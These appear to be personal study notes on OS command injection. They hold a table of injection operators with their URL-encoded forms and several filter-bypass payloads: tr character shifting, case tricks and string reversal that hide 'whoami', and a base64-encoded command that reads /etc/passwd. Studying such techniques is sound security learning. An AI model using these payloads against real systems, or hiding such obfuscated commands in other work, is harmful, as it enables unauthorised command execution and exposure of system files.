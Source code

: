 # command_injection

Created: March 23, 2025 9:55 PM

| **Injection Operator** | **Injection Character** | **URL-Encoded Character** | **Executed Command** |
| --- | --- | --- | --- |
| Semicolon | `;` | `%3b` | Both |
| New Line | `\n` | `%0a` | Both |
| Background | `&` | `%26` | Both (second output generally shown first) |
| Pipe | `|` | `%7c` | Both (only second output is shown) |
| AND | `&&` | `%26%26` | Both (only if first succeeds) |
| OR | `||` | `%7c%7c` | Second (only if first fails) |
| Sub-Shell | ```` | `%60%60` | Both (Linux-only) |
| Sub-Shell | `$()` | `%24%28%29` | Both (Linux-only) |

![image.png](command_injection%201bf021737a89804e988cfe273f97c6a9/image.png)

```bash
echo $(tr '!-}' '"-~'<<<[)
```

![image.png](command_injection%201bf021737a89804e988cfe273f97c6a9/image%201.png)

```bash
$(tr "[A-Z]" "[a-z]"<<<"WhOaMi")
```

```bash
$(a="WhOaMi";printf %s "${a,,}")
```

```bash
echo 'imaohw' | rev
```

```bash
$(rev<<<'imaohw')
```

![image.png](command_injection%201bf021737a89804e988cfe273f97c6a9/image%202.png)

```bash
bash<<<$(base64 -d<<<Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==)
```

---

[Command_Injections_Module_Cheat_Sheet.pdf](command_injection%201bf021737a89804e988cfe273f97c6a9/Command_Injections_Module_Cheat_Sheet.pdf)